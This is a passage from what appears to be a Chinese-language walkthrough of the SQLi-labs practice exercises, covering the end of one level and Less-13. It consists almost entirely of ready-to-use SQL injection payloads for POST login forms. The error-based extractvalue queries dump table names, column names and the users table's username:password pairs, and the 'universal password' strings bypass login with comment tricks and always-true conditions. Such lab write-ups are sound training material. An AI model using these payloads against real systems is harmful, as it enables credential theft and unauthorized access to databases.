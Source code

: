 爆表payload

```
uname=admin") and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+&passwd=admin&submit=Submit
```

爆列名payload

```
uname=admin") and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+&passwd=admin&submit=Submit
```

爆值payload

```
uname=admin") and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+&passwd=admin&submit=Submit
```

### 万能密码

```
# 注释掉 passwd 来登录
uname=admin")--+&passwd=&submit=Submit
uname=admin")#&passwd=&submit=Submit

# 注释后面语句 并 添加一个永真条件
uname=admin&passwd=1") or 1--+&submit=Submit
uname=admin&passwd=1")||1--+&submit=Submit
uname=admin&passwd=1") or 1#&submit=Submit
uname=admin&passwd=1")||1#&submit=Submit
```

# **Less-13** 

**POST - Double Injection - Single quotes- String -twist (POST单引号变形双注入)**



### extractvalue报错注入

爆库payload

```
uname=admin') and extractvalue(1,concat(0x7e,(select database()))) --+&passwd=admin&submit=Submit
```

爆表payload

```
uname=admin') and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+&passwd=admin&submit=Submit
```

爆列名payload

```
uname=admin') and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+&passwd=admin&submit=Submit
```
